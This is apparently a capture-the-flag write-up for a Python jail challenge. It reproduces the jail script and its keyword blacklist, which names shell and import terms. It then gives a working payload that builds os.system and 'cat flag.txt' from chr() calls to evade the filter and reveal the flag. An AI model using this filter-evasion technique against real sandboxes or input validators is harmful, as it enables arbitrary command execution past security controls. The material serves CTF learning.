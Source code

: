 # PRISON BREAK Cell 2 – 350 pts
Category: PyJail

To connect:
`nc 192.168.8.136 10015`

## Challenge Overview
This challenge is the second level of the “Prison Break” PyJail series. It accepts arbitrary Python input from the user, but implements a more aggressive blacklist than the previous level. The goal is to execute arbitrary shell commands (e.g., cat flag.txt) without triggering any of the blacklisted terms.

```python
jail.py:

#!/usr/local/bin/python

import os
import sys

print("="*40)
print("Welcome to the prison break level 2")
print("="*40)
print("Warden: I found out that you escaped at level 1, and now I will confiscate your tools.")
print("Warden: I will also make sure that you won't be able to escape again. BWAHAHA!!")
print("="*40)
print("---- TIPS from 'ret' who escaped and now he is in lvl 3 ----")
print("I love decorating texts in my house.")
print("------------------------------------------------------------")
hax = input("> ")
sys.stdin.close()

confiscated_tools = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system', 'builtins', '__builtins__']

if len(hax) > 512:
    print("In here your tools was replaced...")
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        print("In here your tools was replaced...")
        exit(1)

code = f"""
import os

{hax}

""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```

## Exploit Strategy
The blacklist filters out substrings like os, system, import, flag, open, /, and others — even if they appear inside strings, list elements, or in concatenation. Literal usage of modules and functions is impossible, so indirect access is necessary.

## Final Working Payload
The breakthrough came from this obfuscated one-liner:

`getattr(globals()[chr(111)+chr(115)], chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109))(chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))
`
This decodes to:

`getattr(os, "system")("cat flag.txt")`

However, none of the blacklisted substrings appear in the raw payload:

`'os'` is constructed with chr(111)+chr(115)

`'system'` is built from ASCII characters

`'cat flag.txt'` is also constructed dynamically

This bypasses the PyJail’s strict static filtering and successfully executes the shell command to reveal the flag:

`CITU{0k_g00d_y0u_escaped_lvl_2_ret_has_a_message_for_you_in_the_next_level}`
